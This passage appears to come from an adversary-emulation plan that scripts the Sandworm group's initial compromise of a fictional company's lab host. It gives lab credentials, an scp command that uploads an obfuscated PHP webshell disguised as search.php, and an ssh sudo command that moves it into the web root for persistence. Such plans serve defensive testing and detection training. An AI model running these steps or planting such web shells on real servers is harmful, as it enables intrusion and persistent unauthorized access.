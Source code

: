 # Scenario Overview

This scenario emulates Sandworm compromising a notional organization (Dune Inc.) with the goal of destroying data.

This scenario emulates Sandworm TTPs based on several malware specimens either used by or associated with the Sandworm actors:

1. P.A.S. Webshell
2. Exaramel (Linux and Windows variants)
3. NotPetya

---

## Step 11 - Initial Compromise

:microphone: `voice track`

Sandworm logs into patient zero via SSH using Valid Accounts for the user fherbert.

It is unknown how Sandworm obtained the credentials (perhaps an SSH password guessing attack, or zero day exploit).

Sandworm then deploys a PHP webshell for persistent access.

```
Compromised user info:

User:	fherbert

File write: /tmp/search.php, /var/www/html/search.php

System: 10.0.1.5 / caladan

C2:	192.168.0.4 connects to 10.0.1.5:443 via HTTPS (self signed cert)
```

### ☣️ Procedures

Upload P.A.S. webshell to caladan/10.0.1.5 as `/tmp/search.php`.

```bash
# Sandworm Team have used previously acquired legitimate credentials prior to attacks.

# Sandworm Team has used webshells including P.A.S. Webshell to maintain access to victim networks.

scp sandworm/Resources/phpWebShell/obfuscated_webShell.php fherbert@10.0.1.5:/tmp/search.php
```

Password:

`Whg42WbhhCE17FEzrqeJ`

Move P.A.S. webshell to `/var/www/html` so it can be invoked via httpd.

```bash
ssh fherbert@10.0.1.5 "sudo mv /tmp/search.php /var/www/html/"
```
